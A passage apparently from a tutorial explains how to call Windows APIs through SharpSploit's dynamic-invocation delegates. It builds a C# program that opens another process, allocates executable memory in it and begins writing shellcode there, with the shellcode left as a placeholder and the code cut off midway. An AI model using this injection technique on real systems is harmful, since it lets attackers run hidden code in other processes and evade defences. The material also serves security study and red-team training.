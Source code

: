 ```cs
[UnmanagedFunctionPointer(CallingConvention.StdCall)]
delegate IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);

[UnmanagedFunctionPointer(CallingConvention.StdCall)]
public delegate IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[UnmanagedFunctionPointer(CallingConvention.StdCall)]
public delegate bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out UIntPtr lpNumberOfBytesWritten);

[UnmanagedFunctionPointer(CallingConvention.StdCall)]
public delegate IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
```

Now, to call a delegate, three steps are required:
1. Get the pointer of the function within the DLL
2. Marshal the pointer into the delegate representing our target API (and cast it)
3. Instantiate the delegate (calls the API)

```cs
var pointer = Generic.GetLibraryAddress("kernel32.dll", "OpenProcess");
var openProcess = Marshal.GetDelegateForFunctionPointer(pointer, typeof(OpenProcess)) as OpenProcess;
var hProcess = openProcess(0x001F0FFF, false, <TARGET-PID>);
```

Eventually, we'll have the full program:

```cs
using System;
using System.Linq;
using System.Collections.Generic;
using System.Runtime.InteropServices;
using SharpSploit.Execution.DynamicInvoke;

namespace Inject
{

    public static class Inject
    {

        public static void Main(string[] args)
        {
            var shellcode = "...";
            
            // OpenProcess
            var pointer = Generic.GetLibraryAddress("kernel32.dll", "OpenProcess");
            var openProcess = Marshal.GetDelegateForFunctionPointer(pointer, typeof(OpenProcess)) as OpenProcess;
            var hProcess = openProcess(0x001F0FFF, false, int.Parse(args[0]));

            // VirtualAllocEx
            pointer = Generic.GetLibraryAddress("kernel32.dll", "VirtualAllocEx");
            var virtualAllocEx = Marshal.GetDelegateForFunctionPointer(pointer, typeof(VirtualAllocEx)) as VirtualAllocEx;
            var alloc = virtualAllocEx(hProcess, IntPtr.Zero, (UInt32)shellcode.Length, 0x1000 | 0x2000, 0x40);
            
            // WriteProcessMemory
            UInt32 bytesWritten = 0;
            pointer = Generic.GetLibraryAddress("kernel32.dll", "WriteProcessMemory");
            var writeProcessMemory = Marshal.GetDelegateForFunctionPointer(pointer, typeof(WriteProcessMemory)) as WriteProcessMemory;
```